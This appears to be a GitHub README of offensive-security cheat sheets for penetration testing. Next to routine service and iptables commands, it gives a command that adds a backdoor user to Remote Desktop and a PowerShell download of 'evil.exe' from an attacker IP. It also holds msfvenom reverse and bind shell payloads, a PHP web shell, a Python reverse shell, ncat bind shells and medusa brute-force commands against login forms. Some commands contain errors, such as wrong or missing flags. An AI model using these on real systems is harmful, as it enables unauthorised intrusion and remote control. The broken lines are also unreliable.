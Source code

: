 # Cybersecurity Cheatsheats
Collection of cybersecurity notes and cheat sheets.  If I pulled content from some else’s cheat sheet or site it will be listed reference section.

## User and group managment

Windows
```shell
net user bob bob123 /ADD
net localgroup "Remote Desktop Users" bob /ADD
net localgroup "Users" bob /ADD
```
## Starting services
linux
```shell
systemctl start ssh
systemctl start apache2
service apache2 start
```



## Enable/Disable service to start on boot
linux
```shell
systemctl enable apache2
systemctl disable apache2
```
## Download files

Powershell
```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://[your_ip_address]/evil.exe','evil.exe')
```

## msfvenom examples
```shell
msfvenom -p windows/shell_reverse_tcp  HOST=[your_ip_address] LPORT=[Port] -f asp > shell.asp
```

```shell
msfvenom -p windows/meterpreter/reverse_tcp [your_ip_address] LPORT=[Port] -f aspx > shell.aspx
```

```shell
msfvenom -p linux/x86/shell\_bind\_tcp LPORT=[port]-f c -b "\\x00\\x0a\\x0d\\x20" –e x86/shikata\_ga\_nai
```

```shell
msfvenom -p windows/shell\_reverse\_tcp LHOST=<IP Address> LPORT=[port]-b "\\x00\\x0a\\x0d" -f c -a x86 --platform windows -e x86/shikata\_ga\_nai
```

## shells

PHP

```php
<<?php echo shell_exec($_GET['cmd']);?>
```

Python

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<IP Address>",443))
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)p=subprocess.call(["/bin/sh","-i"])
```

### Netcat

-   Client nc –nv <Your IP Address> <port>
-   Server nc –nlvp <port>

### Ncat

-   Bind Shell: ncat –exec cmd.exe --allow <your_ip_address>-vnl <port>  --ssl
-   Client: ncat –v <your_ip_address> <port> --ssl
  
## Ncat 
-   TCP Port scan: nc –nvv –w 1 -z <your_ip_address> 3000-4000
-   UDP port scan: nc –nvv -u -z <your_ip_address> 3000-4000


## Iptables

-   Allow input on port: iptables -A INPUT -p tcp --dport [port] -j ACCEPT
-   iptables -A INPUT -p tcp --dport 22 -j ACCEPT
-   iptables -A INPUT -p udp--dport 22 -j ACCEPT
-   Traffic analysis
    -   iptables -I INPUT 1 -s [your_ip_address]-j ACCEPT
    -   iptables -I OUTPUT 1 -s [your_ip_address]-j ACCEPT
    -   iptables –Z
    -   iptables –vn -L

-   Clean up rules: iptables -F INPUT

medusa example
```shell
medusa \
  -h [target_ip] \
  -u offsec \
  -P nmap.lst \
  -M web-form \
  -m FORM:"login.php" \
  -m DENY-SIGNAL:"Wrong Username or Password" \
  -m FORM-DATA:"post?user=&pass=&Login=Login"


  medusa \
-h [target_ip]\
-u admin \
-P /data/dict/dict.txt \
-M web-form \
-m FORM:"admin/test.php" \
-m DENY-SIGNAL:"ACCESS DENIED" \
-m FORM-DATA:"post?u=&p=&Login=Login"
```


## References
* http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/?redirect
* http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
* http://pentestmonkey.net/tools/audit/unix-privesc-check
* http://pentestmonkey.net/tools/web-shells/php-reverse-shell
* http://resources.infosecinstitute.com/privilege-escalation-linux-live-examples/
* http://www.computersecurity.org/computer-cyber-security-certifications-education-college-courses/cheat-sheet-how-to-pass-the-oscp-offensive-security-certified-professional-exam-step-by-step-guide-enumerating-services-part-2/
* http://www.computersecurity.org/computer-cyber-security-certifications-education-college-courses/cheat-sheet-how-to-pass-the-oscp-offensive-security-certified-professional-exam-step-by-step-guide-sqli-xss-web-app-attacks-part-5/
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
* https://blog.sucuri.net/2013/05/from-a-site-compromise-to-full-root-access-local-root-exploits-part-ii.html
* https://hackingandsecurity.blogspot.com/2016/04/oscp-related-notes.html?m=1
* https://hackingandsecurity.blogspot.com/2016/04/oscp-related-notes.html?m=1
* https://hackmag.com/security/reach-the-root/
* https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
* https://highon.coffee/blog/tr0ll-1-walkthrough/
* https://jordanpotti.com/oscp/
* https://jordanpotti.com/oscp/
* https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
* https://security.stackexchange.com/questions/68442/escalating-from-apache-shell-to-root
